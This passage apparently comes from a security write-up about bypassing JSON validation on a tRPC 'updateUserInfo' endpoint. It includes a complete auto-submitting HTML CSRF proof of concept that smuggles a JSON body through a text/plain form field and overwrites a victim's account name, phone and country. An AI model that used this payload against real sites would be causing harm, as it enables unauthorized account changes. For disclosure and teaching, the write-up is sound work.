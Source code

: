 Unfortunately, the server still rejected the request, returning this error:

```json
{"error":{"message":"Received 'EG=' is an invalid enum value for country.","code":"invalid_enum_value"}}
```

This confirmed that the server strictly validated the `country` field against a set of predefined values and did not accept arbitrary characters like `=`.

<figure><img src="../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

## CSRF PoC and Exploitation Details

We’re not at the finish line yet, but here’s where things get interesting. After realizing that the issue with `=` being treated as part of the JSON structure was causing issues, I decided to embed the payload in the `name` parameter, where the server would treat it as normal text in the user’s name. This subtle approach led to a successful CSRF attack.

The CSRF PoC looked like this:

```html
<html>
  <body>
    <form action="https://dashboard.target.com/trpc/users.updateUserInfo?batch=1" method="POST" enctype="text/plain">
      <input type="hidden" name="&#123;&quot;0&quot;&#58;&#123;&quot;accountName&quot;&#58;&quot;hacked&quot;&#44;&quot;name&quot;&#58;&quot;tes&#32;edf" value="&quot;&#44;&quot;subscribed&quot;&#58;&quot;on&quot;&#44;&quot;phone&quot;&#58;&quot;1099424297&quot;&#44;&quot;country&quot;&#58;&quot;EG&quot;&#125;&#125;&#13;&#10;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
